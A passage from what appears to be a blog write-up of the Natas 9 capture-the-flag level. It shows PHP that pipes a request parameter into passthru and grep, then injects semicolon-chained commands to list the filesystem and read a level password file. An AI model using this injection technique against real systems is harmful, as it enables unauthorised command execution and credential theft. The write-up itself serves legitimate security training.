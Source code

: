 There is our secret string we put it in the input field and we are presented with the password.

### Natas 9
- - - - - - -

Now we have another form. When we enter a word it seems to show only things with that word. Also same for characters. Looking at the source we are presented with the following.

{% highlight php %}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
{% endhighlight %}

We can see as long as the key needle exist in our URL and it’s not empty it gets passed through to "passthru" which executes the system command grep. Now knowing how Linux command structure works we know we can execute more commands if we put a semi colon.

To test it we put the following input.

{% highlight bash %}
c; ls -la
{% endhighlight %}

Gives us the following result.

{% highlight bash %}
-rw-r----- 1 natas9 natas9 460878 Nov 14 10:27 dictionary.txt
{% endhighlight %}

If we cat dictionary.txt it is literally nothing but a dictionary. So we need to search our operating system. So we execute the following command.

{% highlight bash %}
c; ls -la /*/*/** 
{% endhighlight %}

If we ctrl+f for "natas10" eventually we find the following.

{% highlight bash %}
-r--r-----   1 natas10    natas9           33 Nov 14 10:32 /etc/natas_webpass/natas10
{% endhighlight %}

Looks promising. We now go ahead and see if we can read it.

{% highlight bash %}
c; cat /etc/natas_webpass/natas10
{% endhighlight %}
